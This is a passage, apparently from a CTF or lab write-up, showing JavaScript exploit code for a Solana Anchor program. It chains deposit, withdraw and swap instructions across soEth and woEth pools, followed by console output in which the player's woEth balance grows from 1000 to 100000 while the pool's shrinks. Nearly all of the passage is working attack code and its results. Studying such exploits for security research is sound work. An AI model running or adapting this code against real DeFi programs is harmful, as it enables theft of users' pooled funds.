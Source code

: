 ```js
                depositorVoucherAccount: soEthPoolVoucher.address,           //checked (to recieve the voucher tokens)
                tokenProgram: TOKEN_PROGRAM_ID,                                 //checked
            }
        }),
        // with drawing the soEth tokens from soEth voucher
        program.instruction.withdraw(amount, {
            accounts: {
                player: player.publicKey,
                depositor: player.publicKey,
                state: accounts.state,
                depositMint: soEthMint.address,
                pool: accounts.soEthPool,
                poolAccount: soEthPoolToken.address,
                voucherMint: accounts.soEthVoucherMint,
                depositorAccount: soEthTokenAccount.address,
                depositorVoucherAccount: soEthPoolVoucher.address,
                tokenProgram: TOKEN_PROGRAM_ID,
            }
        }),
        // swapping the soEth tokens for woEth tokens
        program.instruction.swap(amount, {
            accounts: {
                player: player.publicKey,
                swapper: player.publicKey,
                state: accounts.state,
                fromPool: accounts.soEthPool,
                toPool: accounts.woEthPool,
                fromPoolAccount: soEthPoolToken.address,
                toPoolAccount: woEthPoolToken.address,
                fromSwapperAccount: soEthTokenAccount.address,
                toSwapperAccount: woEthTokenAccount.address,
                tokenProgram: TOKEN_PROGRAM_ID,
            }
        })
    );
    // signing and sending the transaction
    const sign = await anchor.web3.sendAndConfirmTransaction(conn, txn, [player]);
    console.log("Signature: "+ sign);
}
```
After running the exploit the balances are:
```bash
Pool balances:
	woEth: 100000000, soEth: 100000000, stEth: 100000000
Player balances:
	woEth: 1000, soEth: 1000, stEth: 1000
Signature: LnpCgkUVh4jqYBzrmv7W93o64An7MgwdczusXnHDVrvYVNBNaXfgFRXADWWz82gXCJfgm5HmVfRAivQ2w75wTXY
Pool balances:
	woEth: 99901000, soEth: 100000000, stEth: 100000000
Player balances:
	woEth: 100000, soEth: 1000, stEth: 1000
```
